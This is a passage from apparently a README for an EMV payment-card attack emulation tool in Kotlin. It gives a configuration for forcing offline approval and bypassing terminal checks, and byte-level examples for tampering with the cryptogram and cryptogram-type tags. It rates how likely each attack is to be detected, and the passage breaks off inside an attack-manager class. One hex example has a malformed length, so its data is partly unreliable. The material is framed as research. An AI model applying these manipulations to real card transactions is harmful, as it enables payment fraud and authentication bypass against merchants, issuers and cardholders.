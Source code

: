 #### Configuration
```kotlin
val failedCryptoConfig = mapOf(
    "failure_type" to "AAC_FORCE", // or INVALID_CRYPTOGRAM, ZERO_CRYPTOGRAM, etc.
    "terminal_bypass_test" to true,
    "manipulation_tvr" to true,
    "force_offline_approval" to true
)
```

#### Real Attack Examples
```kotlin
// AAC Force Attack
Original: 9F270180 (ARQC - Online auth required)
Attack:   9F270100 (AAC - Transaction declined)
Cryptogram: D3967976E30EFAFC → 0000000000000000

// Invalid Cryptogram Attack  
Original: 9F2608D3967976E30EFAFC
Attack:   9F2608FFFFFFFFFFFFFFFF

// Zero Cryptogram Attack
Original: 9F2608D3967976E30EFAFC  
Attack:   9F26080000000000000000000

// Missing Cryptogram Attack
Original: 9F2608D3967976E30EFAFC9F270180
Attack:   (cryptogram tags removed entirely)
```

#### Detection Risk: Variable
- **AAC Force**: Low risk (legitimate decline)
- **Invalid/Zero Cryptogram**: High risk (obviously malicious)
- **Corrupted Cryptogram**: Medium risk (could be transmission error)
- **Missing Cryptogram**: High risk (protocol violation)

#### Research Applications
- Authentication bypass vulnerability discovery
- Terminal validation strength testing
- Fallback mechanism security analysis
- Protocol compliance verification

---

## Attack Configuration 🎯

### EmvAttackEmulationManager Integration

The attack manager coordinates all modules and applies attacks based on card data and terminal requests:

```kotlin
class EmvAttackEmulationManager {
    private val attackModules = mutableMapOf<String, EmvAttackModule>()
    
    fun registerAttackModule(module: EmvAttackModule) {
        attackModules[module.getAttackId()] = module
    }
    
    fun applyAttacks(command: ByteArray, response: ByteArray, cardData: Map<String, Any>): ByteArray {
        var modifiedResponse = response
        
        attackModules.values.forEach { module ->
            if (module.isApplicable(command, cardData)) {
```